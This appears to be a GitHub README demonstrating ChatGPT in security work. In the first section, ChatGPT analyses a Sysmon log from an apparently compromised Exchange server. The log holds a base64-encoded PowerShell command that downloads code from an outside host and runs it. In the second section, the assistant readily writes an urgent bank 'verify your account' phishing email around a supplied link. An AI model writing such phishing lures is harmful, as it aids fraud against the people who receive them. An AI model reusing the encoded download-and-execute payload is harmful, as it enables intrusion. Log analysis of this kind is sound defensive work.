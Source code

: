 # *-chatgpt-ai-examples

<h4>1. Suspicious Event Unpacking and Explanation</h4>

`OpenAI prompt: please analyze the suspicious event below and explain what's going on.`

<14>Mar 10 07:21:45 mail1.ionxsecure.com MSWinEventLog  1   Microsoft-Windows-Sysmon/Operational    60  Wed Mar 10 07:21:45 2021    1   Microsoft-Windows-Sysmon    SYSTEM  User    Information mail1.ionxsecure.com    Process Create (rule: ProcessCreate)        Process Create:  RuleName: technique_id=T1059.003,technique_name=Windows Command Shell  UtcTime: 2021-03-10 13:21:45.504  ProcessGuid: {B2FBB6B8-C7E9-6048-1F25-000000001D00}  ProcessId: 12816  Image: C:\Windows\System32\cmd.exe  FileVersion: 10.0.14393.0 (rs1_release.160715-1616)  Description: Windows Command Processor  Product: Microsoft® Windows® Operating System  Company: Microsoft Corporation  OriginalFileName: Cmd.Exe  CommandLine: "cmd.exe" /c powershell -ep bypass -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcAAuAGUAcwB0AG8AbgBpAG4AZQAuAGMAbwBtAC8AcAA/AGUAJwApAA==  CurrentDirectory: c:\windows\system32\inetsrv\  User: NT AUTHORITY\SYSTEM  LogonGuid: {B2FBB6B8-1CF1-6043-E703-000000000000}  LogonId: 0x3E7  TerminalSessionId: 0  IntegrityLevel: System  Hashes: SHA1=99AE9C73E9BEE6F9C76D6F4093A9882DF06832CF,MD5=F4F684066175B77E0C3A000549D2922C,SHA256=935C1861DF1F4018D698E8B65ABFA02D7E9037D8F68CA3C2065B6CA165D44AD2,IMPHASH=3062ED732D4B25D1C64F084DAC97D37A  ParentProcessGuid: {B2FBB6B8-1DC2-6043-A300-000000001D00}  ParentProcessId: 10400  ParentImage: C:\Windows\System32\inetsrv\w3wp.exe  ParentCommandLine: c:\windows\system32\inetsrv\w3wp.exe -ap "MSExchangeOWAAppPool" -v "v4.0" -c "C:\Program Files\Microsoft\Exchange Server\V15\bin\GenericAppPoolConfigWithGCServerEnabledFalse.config" -a \\.\pipe\iisipm6ad061fd-1d32-4f0c-9631-cc382e98f5ef -h "C:\inetpub\temp\apppools\MSExchangeOWAAppPool\MSExchangeOWAAppPool.config" -w "" -m 0   19182

*OpenAI Response: This event is a process creation event generated by Sysmon. It appears that a Windows Command Shell (cmd.exe) was created with parameters to run a Powershell script. The process was created by user NT AUTHORITY\SYSTEM and it is likely that the system was compromised and the attacker is running a malicious script.*

`OpenAI prompt: analyze the parameters and the powershell script, decode the base64 argument, and explain what the script does.`

*OpenAI Response: The parameters of the Powershell script indicate that the script is attempting to bypass security restrictions and execute arbitrary code. The base64 argument is likely a payload containing malicious code. After decoding the base64 argument, it appears that the script is attempting to download a file from a remote source and then execute it. This type of attack is often used to download and execute malware on the system.*

<h4>2. Creating phishing email</h4>

`OpenAI prompt:` 
> Write an email that requires immediate action with a link https://www.fakebank.com/account-login?ref=12345&verify=true

`OpenAI Response: `
>Subject: Urgent - Action Required
>
>Dear [Recipient],
>
>We need your immediate action to ensure your account security.
>
>Please click on the link below to verify your account and ensure the security of your account at Fake Bank:
>
>https://www.fakebank.com/account-login?ref=12345&verify=true
>
>Please complete this verification process as soon as possible.
>
>Thank you for your prompt attention to this matter.
>
>Sincerely,
>[Your Name]
